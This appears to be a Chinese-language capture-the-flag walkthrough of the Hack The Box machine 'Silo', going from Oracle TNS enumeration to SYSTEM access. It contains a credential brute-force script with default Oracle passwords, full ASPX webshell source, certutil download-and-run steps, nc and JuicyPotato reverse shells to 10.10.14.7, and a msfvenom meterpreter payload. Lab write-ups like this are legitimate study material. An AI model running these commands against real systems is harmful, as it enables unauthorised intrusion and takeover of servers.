

# 信息搜集

## Nmap

```
root@kali# nmap -sT -p- --min-rate 5000 -oA nmap/alltcp 10.10.10.82
...
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
1521/tcp  open  oracle
5985/tcp  open  wsman
47001/tcp open  winrm
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49158/tcp open  unknown
49160/tcp open  unknown
49161/tcp open  unknown
49162/tcp open  unknown
...
root@kali# nmap -sC -sV -oA nmap/details 10.10.10.82
...
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 8.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: IIS Windows Server
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn?
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1521/tcp  open  oracle-tns   Oracle TNS listener 11.2.0.2.0 (unauthorized)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  oracle-tns   Oracle TNS listener (requires service name)                                                                                 49161/tcp open  msrpc        Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submi
t.cgi?new-service :
SF-Port139-TCP:V=7.70%I=7%D=4/21%Time=5ADBEBEB%P=x86_64-pc-linux-gnu%r(Get
SF:Request,5,"\x83\0\0\x01\x8f");
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
| smb-security-mode:
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: supported
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2018-04-21 21:58:51
|_  start_date: 2018-04-21 15:47:47
...
```

扫描出的端口有相当多的开放端口，包括 http（80）、RPC （135）、SMB （139， 445） 和 Oracle TNS listener （1521）。

## Web - Port 80


### Gobuster

```
root@kali# gobuster -u http://10.10.10.82/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,html -t 30
...
...
```

什么也没有找到。

## Oracle db - Port 1521

为了和Oracle交互，我们需要用到sqlplus，ODAT;其中ODAT需要使用到sqlplus才可以正常工作。

> sqlplus:sqlplus是一个与Oracle交互的工具.Oracle 数据库中所有的管理操作都可以通过sqlplus工具完成。sqlplus 可以运行于任何Oracle数据库可运行的操作系统平台，其使用方法基本相同。
> 
> ODAT:Oracle Database Attacking Tool ,Oracle 数据库攻击工具 。
> 
> 以上俩工具的具体操作后面会有。

### 下载sqlplus和ODAT

```
apt install oracle-instantclient-sqlplus
apt install odat
```

### 获取SID	

针对 Oracle 数据库我们需要首先获取目标的SID，这里介绍两种方法：MSF 以及 odat

#### odat获取SID

> ODAT：一款专门用于Oracle渗透的工具
> 
> ODAT使用场景示例：你希望找到远端Oracle数据库的SID和有效凭证以连接数据库；你已获取到一个有效的Oracle帐户，并想将你的权限提升为DBA或SYSDBA；你有一个Oracle帐户，并希望执行系统命令（例如，反向shell），以在托管数据库的操作系统上进一步的渗透
> 
> ODAT的详细介绍：https://www.freebuf.com/sectool/163627.html

使用 odat 获取SID，扫描结果显示 SID 为XE、XEXDB

```
odat sidguesser -s 10.10.10.82
```


> XE、XEXDB：在Oracle数据库中，SID（System Identifier）是用于标识数据库实例的唯一标识符。具体到SID为XE和XEXDB，它们通常与Oracle的Express Edition（XE）相关。
> 
> 	XE:XE通常代表Oracle Database Express Edition。Oracle XE是Oracle公司提供的一个轻量级、免费的数据库版本，适用于学习、开发和小型应用。当SID为XE时，这意味着这是一个Oracle Database Express Edition的实例。通常在安装Oracle XE时，默认的SID就是XE。
> 
> 	XEXDB:XEXDB是Oracle XE中的内部数据库或XML数据库的标识符。在Oracle XE中，XEXDB代表的是XML数据库的一部分，用于存储和管理XML数据。该实例是Oracle内置的，通常不需要用户直接进行太多的交互，它主要用于Oracle内部管理XML数据的操作。
> 
> 在安装Oracle XE后，通常会看到以下两个SID：
> 
> XE：代表整个数据库实例，是用户主要进行交互的数据库实例。
XEXDB：主要用于内部的XML数据存储和管理，不需要用户直接操作。
> 
> 在配置和使用Oracle XE时，您通常会连接到SID为XE的数据库实例。例如，使用以下命令连接到XE实例：sqlplus system@XE
> 
> 这是用于连接到Oracle XE数据库实例的常见方式。XEXDB则是内部使用的，不需要进行额外的配置和管理。

#### MSF获取SID

```
msfconsole
msf > use auxiliary/admin/oracle/sid_brute
msf > set rhosts 10.10.10.82
msf > run
```


扫描结果中可发现 SID 存在四个，分别是XE、XEXDB、PLSExtProc和CLRExtProc。相对于ODAT来说 MSF 发现 SID 明显更多.

### 爆破Oracle数据库

爆破 Oracle 账号密码可以使用 MSF 、odat 中关于 Oracle 爆破的相关模块，当然也可以使用自写脚本.

#### 自写脚本爆破

```
#!/usr/bin/env python

import cx_Oracle  //用于连接和操作Oracle数据库
import sys
from multiprocessing import Pool

MAX_PROC = 50
host = "10.10.10.82"
sid = "XE"    //Oracle数据库实例的标识符,这里为XE.

def usage():   //用于打印脚本的使用说明
    print("{} [ip] [wordlist]".format(sys.argv[0]))
    print("  wordlist should be of the format [username]:[password]")
    sys.exit(1)

def scan(userpass):   //接受一个用户名和密码的组合(格式为username:password)
    u, p = userpass.split(':')[:2]
    try:
        conn = cx_Oracle.connect('{user}/{pass_}@{ip}/{sid}'.format(user=u, pass_=p, ip=host, sid=sid))
        return u, p, True
    except cx_Oracle.DatabaseError:
        return u, p, False


def main(host, userpassfile, nprocs=MAX_PROC):   //读取包含用户名和密码组合的文件userpassfile
    with open(userpassfile, 'r') as f:
       userpass = f.read().rstrip().replace('\r','').split('\n')

    pool = Pool(processes=nprocs)

    for username, pass_, status in pool.imap_unordered(scan, [up for up in userpass]):
        if status:
            print("Found {} / {}\n\n".format(username, pass_))
        else:
            sys.stdout.write("\r {}/{}                               ".format(username, pass_))

if __name__ == '__main__':
    if len(sys.argv) != 3:
        usage()
    main(sys.argv[1], sys.argv[2])
//这个脚本的主要作用是通过暴力破解的方式，批量测试一个用户名和密码列表，尝试连接到指定的Oracle数据库实例，以找到有效的用户名和密码对。该脚本使用多进程并行处理，提高了测试的效率。
```

除了脚本以外还需要构造字典，以下为 Oracle 数据库默认用户和默认密码，使用它作为字典辅助爆破


```
sys:change_on_install
system:manager
sysman:oem_temp
scott:tiger
aqadm:aqadm
Dbsnmp:dbsnmp
```

使用自写脚本进行爆破

```
python3 brute.py 10.10.10.82 userpass.txt
```


成功获得账号密码：scott/tiger、Dbsnmp/dbsnmp

#### MSF爆破

```
msf > use auxiliary/admin/oracle/oracle_login
msf > set rhosts 10.10.10.82
msf > set sid XE
msf > run
```


MSF也能够成功爆破出对应的账号密码

# 获取shell

## 登录数据库

使用 sqlplus 借助以上账号密码登录数据库

```
sqlplus scott/tiger@10.10.10.82:1521/XE
```


但是默认情况下 scott 用户不是 sysdba 角色，通过SQL语句查询当前权限也验证了这一结果

```
select * from user_role_privs;
```


但是我们可以借助as sysdba命令进行权限提升

```
sqlplus scott/tiger@10.10.10.82:1521/XE as sysdba
```

执行过后发现当前权限已为 sysdba


> 利用 SQLPlus可以实现以下操作:
输入、编辑、存储、提取、运行和调试SQL语句和PL/SQL程序;
开发、执行批处理脚本;
执行数据库管理;
处理数据、生成报表、存储、打印、格式化查询结果;
检查表和数据库对象定义;
启动/关闭数据库实例。
> 
> SQL plus详细操作：https://www.cnblogs.com/CX66/p/13950514.html

使用 odat 以 sysdba 权限查询 Oracle 数据库的利用点

```
odat all -s 10.10.10.82 -d XE -U scott -P tiger --sysdba
```


通过扫描结果可以发现目标存在tns投毒漏洞，与此同时我们还可以完成上传、下载文件等操作

> TNS投毒漏洞：TNS投毒漏洞是针对Oracle数据库网络通信的一个安全漏洞。TNS（Transparent Network Substrate）是Oracle数据库用来实现网络连接的协议。TNS投毒漏洞的存在使得攻击者能够通过恶意操作网络流量来拦截和篡改数据库客户端和服务器之间的通信，从而执行中间人攻击（MITM），获取敏感数据或执行其他恶意操作。

## 上传木马

由于80端口为 IIS 的默认界面，那么猜测网站目录则为c:\inetpub\wwwroot，将asp版的 webshell 复制到当前目录下

```
cp /usr/share/webshells/aspx/cmdasp.aspx .
```

使用 odat 上传 webshell

```
odat dbmsadvisor -s 10.10.10.82 -d XE -U SCOTT -P tiger --sysdba --putFile C:\\inetpub\\wwwroot mac.aspx cmdasp.aspx
```


但是访问后返回404.


猜测可能原因是 webshell 超过了其大小限制，我们可将其压缩

```
cat cmdasp.aspx | tr -d '\n'
```


压缩后再次上传，使用 sqlplus 进行上传

```
SQL> exec utlwritefile('C:/inetpub/wwwroot', 'shell1.aspx', '<%@ Page Language="C#" Debug="true" Trace="false" %><%@ Import Namespace="System.Diagnostics" %><%@ Import Namespace="System.IO" %><script Language="c#" runat="server">void Page_Load(object sender, EventArgs e){}string ExcuteCmd(string arg){ProcessStartInfo psi = new ProcessStartInfo();psi.FileName = "cmd.exe";psi.Argumentsc "+arg;psi.RedirectStandardOutput = true;psi.UseShellExecute = false;Process p = Process.Start(psi);StreamReader stmrdr = p.StandardOutput;string s = stmrdr.ReadToEnd();stmrdr.Close();return s;}void cmdExe_Click(object sender, System.EventArgs e){Response.Write("<pre>");Response.Write(Server.HtmlEncode(ExcuteCmd(txtArg.Text)));Response.Write("</pre>");}</script><HTML><bodyasp:TextBox id="txtArg" runat="server" Width="250px"></asp:TextBox><asp:Button id="testing" runat="server" Text="excute" OnClick="cmdExe_Click"></asp:Button><asp:Label id="lblText" runat="server">Command:</asp:Label></form></body></HTML>');
```


结果还是显示失败，原来是上传命令存在问题，可使用 dbmsxslprocessor 来进行上传

```
odat dbmsxslprocessor -s 10.10.10.82 -U scott -P tiger -d XE --putFile "C:\inetpub\wwwroot" "shell.aspx" "/usr/share/webshells/aspx/cmdasp.aspx" --sysdba
```



成功访问木马文件


## 反弹shell

上传 nc至服务器，首先需要在本地开启 http 服务

```
cp /usr/share/windows-resources/binaries/nc.exe .
ls
python -m SimpleHTTPServer 80
```


在本地监听6666端口。

```
nc -lvnp 6666
```

通过webshell执行命令完成反弹shell操作

```
certutil.exe -urlcache -f http://10.10.14.7/nc.exe C:\WINDOWS\TEMP\nc.exe
C:\WINDOWS\TEMP\nc.exe 10.10.14.7 6666 -e cmd.exe
```

> certutil.exe：这是Windows系统自带的一个命令行程序，通常用于管理证书。这里被滥用来下载文件。


成功反弹shell，在当前用户桌面上成功找到第一个flag

```
dir c:\Users\Phineas\Desktop
type c:\Users\Phineas\Desktop\user.txt
```


同时桌面上还存在名为Oracle issue.txt文件，查看后发现其中包含一个密码。

```
type "c:\Users\Phineas\Desktop\Oracle issue.txt"
```


# 权限提升

## 手工内核提权

获取系统信息发现该系统为Windows Server 2012


我们可以使用Windows-Exploit-Suggester查找相关漏洞

> 使用Windows-Exploit-Suggester工具对目标补丁程序级别与Microsoft漏洞数据库进行比较，以检测目标上可能缺少的补丁程序。
> 
> Gtihub地址 : windows-exploit-suggester.py:https://github.com/AonCyberLabs/Windows-Exploit-Suggester
> 
> 具体操作可以查看其他博客。

```
python windows-exploit-suggester.py --systeminfo systeminfo.txt  --database 2024-07-29-mssb.xls
```


选择烂土豆进行提权，在本地开启nc监听

```
nc -lvnp 4444
```

然后在靶机输入命令传输提权程序并进行提权

```
certutil.exe -urlcache -f http://10.10.14.7/nc.exe C:\WINDOWS\TEMP\nc.exe
certutil.exe -urlcache -f http://10.10.14.7/JuicyPotato.exe C:\WINDOWS\TEMP\JuicyPotato.exe
C:\WINDOWS\TEMP\JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c 
C:\WINDOWS\TEMP\nc.exe -e cmd.exe 10.10.14.7 4444" -t *
```


成功拿到 system 权限。

## Oracle进程提权

判断Oracle运行权限，除了内核提权外还可以通过Oracle权限进行反弹，查看进程

```
PS C:\Windows\system32> tasklist /v

Image Name                     PID Session Name        Session#    Mem Usage Status          User Name                                              CPU Time Window Title
========================= ======== ================ =========== ============ =============== ================================================== ============ ========================================================================
System Idle Process              0 Services                   0          4 K Unknown         NT AUTHORITY\SYSTEM                                   202:51:56 N/A
System                           4 Services                   0        276 K Unknown         NT AUTHORITY\SYSTEM                                     0:23:07 N/A
...snip...
oracle.exe                    1136 Services                   0    638,440 K Unknown         NT AUTHORITY\SYSTEM                                     1:37:10 N/A
OraClrAgnt.exe                1264 Services                   0      2,484 K Unknown         NT AUTHORITY\SYSTEM                                     0:00:00 N/A
TNSLSNR.EXE                   1280 Services                   0     20,760 K Unknown         NT AUTHORITY\SYSTEM                                     0:00:10 N/A
...snip...
w3wp.exe                      1688 Services                   0     31,192 K Unknown         IIS APPPOOL\DefaultAppPool                              0:00:00 N/A
...snip...
```

在进程中并未发现 Oracle 进程由哪个用户运行，但是我们可以尝试读取root.txt

```
root@kali# odat ctxsys -s 10.10.10.82 -d XE -U SCOTT -P tiger --sysdba --getFile c:\\users\\administrator\\desktop\\root.txt

[1] (10.10.10.82:1521): Read the c:\users\administrator\desktop\root.txt file on the 10.10.10.82 server
[+] Data stored in the c:\users\administrator\desktop\root.txt file (escape char replace by '\n'):
CD39EA0A..
```

结果显示可以读取 root.txt，说明 Oracle 进程为管理员权限及以上。

下面我们借助MSF提权，使用msfvenom 生成 exe 形式反弹木马

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=7777 -f exe -o shell.exe
```


使用odat 上传木马并执行

```
odat utlfile -s 10.10.10.82 -U SCOTT -P tiger -d XE --sysdba --putFile \\TEMP shell.exe ~/hackthebox/Silo/shell.exe 
odat externaltable -s 10.10.10.82 -U SCOTT -P tiger -d XE --sysdba --exec \\TEMP shell.exe
```


本地监听7777端口后成功获得系统权限

```
msfconsole
msf > use exploit/multi/handler
msf > set payload windows/x64/meterpreter/reverse_tcp
msf > set lhost 10.10.14.7
msf > set lport 7777
msf > run 
```


